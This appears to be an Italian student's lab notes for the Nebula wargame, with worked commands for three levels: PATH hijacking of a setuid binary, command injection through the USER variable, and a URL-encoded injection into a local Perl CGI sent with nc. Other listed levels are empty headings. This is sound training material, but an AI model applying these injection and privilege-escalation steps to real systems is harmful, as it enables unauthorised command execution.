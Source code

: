 # Esercizi di laboratorio:  


### Nebula 
- lvl 00
- lvl 01:  
    Il comando echo dentro l'eseguibile è eseguito tramite il comando env, che consente di eseguire un comando esterno in un ambiente UNIX.  
    ```bash
    # echo $PATH contiene percorso ricerca UNIX dei binari 
    # si modifica PATH prependendo la directory /tmp
    export PATH=/tmp:$PATH
    echo $PATH # mostra /tmp come prima dir di ricerca

    # Si copia il file /bin/getflag in /tmp/echo 
    cp /bin/getflag /tmp/echo # ora env echo invoca getflag

    cd /home/flag01
    ./flag01 # invoca getflag con i privilegi di getflag!
    ```
- lvl 02:
    Nelle ultime righe del codice sorgente notiamo che viene copiata in un buffer una stringa rappresentante un comando, viene usata la variabile `$USER` come comando, usando export la ridefiniamo con una comand injection: comando_safe + carattere separatore + comando_malizioso + commento. 

    ```bash
    echo $USER # stampa valore corrente ossia: level02
    # si imposta l input malizioso in USER con export 
    export USER="level02; getflag #"
    echo $USER # otteniamo level02; getflag #
    cd /home/flag02
    ./flag02 # esegue getflag con i permessi fi flag02 in quanto il binario ha setuid attivo
    ```
- lvl 03
- lvl 05
- lvl 06
- lvl 07:
    In questa challenge si manomette uno script perl per eseguire getflag con permessi elevati. Nello script perl si prende in input un host ma non si sanifica l'input, si può eseguire una comand injection.  
    comand $\rightarrow$ 8.8.8.8 ; getflag \r\n\r\n (bisogna usare il webserver in ascolto)

    ```bash
    echo -ne "GET /index.cgi?Host=8.8.8.8%3Bgetflag\r\n\r\n" | nc localhost 7007
    ```
    Questo permette di eseguire `getflag` con i permessi di level07.  
    **nota importante**: Bisogna usare l'URL encoding per passare il carattere `;` in quanto tale carattere è speciale e viene consumato dal webserver per separare argomenti della query, si prende quindi il codice ASCII di `;` e lo si  traduce in esadecimeale ossia `3B`, si usa il carattere `%` per attivare l'URL encoding. 
    **nota2:** `\r\n\r\n` indica la fine degli header HTTP, senza il server non capisce che la richiesta è finita e non esegue il comando.    


- lvl 08
- lvl 10 (toctou)

### Protostar 
- stack 01 
- stack 03
- stack 05


### Web4PenTesters
- XSS 1 
- File include 1 
- SQL 1



